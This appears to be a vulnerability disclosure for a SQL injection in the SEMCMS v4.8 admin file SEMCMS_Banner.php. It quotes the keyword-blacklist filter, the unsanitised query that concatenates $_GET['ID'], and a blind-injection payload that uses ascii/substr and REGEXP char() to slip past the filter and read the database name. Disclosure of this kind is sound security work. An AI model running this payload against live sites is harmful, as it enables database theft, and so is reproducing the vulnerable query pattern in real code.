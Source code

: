 #  Semcms v4.8 SEMCMS_Banner.php SQL Injection

###  Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.

```
v4.8zip download link:http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
```

###  Vulnerability description

A SQL injection vulnerability exists in the SEMCMS v4.8 backend. The vulnerability results from a lack of validation of externally entered SQL statements in the SEMCMS_Banner.php parameters ID and lgid. An attacker without an account could exploit this vulnerability to execute illegal SQL commands to obtain sensitive data from the database.

###  Vulnerability analysis

filter function：

```php
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 

```

The vulnerability exists on line 32 of SEMCMS_Banner.php:

![image-20240325125850992](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240325125850992.png)

```php
<?php
}elseif($type=="edit"){
    
 $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_banner WHERE ID=".$_GET["ID"]));
 
?>
```



The vulnerability exists on line 69 of SEMCMS_Banner.php:

![image-20240325130124241](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240325130124241.png)

```
payload:-1 or ascii(substr(database(),1,1)) REGEXP char(94,49,48,57,36)
```

When the condition is true:

It should be noted that you need to add pictures before reproducing, otherwise no picture will be generated on the page no matter what the ID and lgid are equal to.

![图片3](D:\Desktop\images\图片3.png)

![图片4](D:\Desktop\images\图片4.png)



![image-20240325130707386](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240325130707386.png)

![image-20240325130725854](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240325130725854.png)
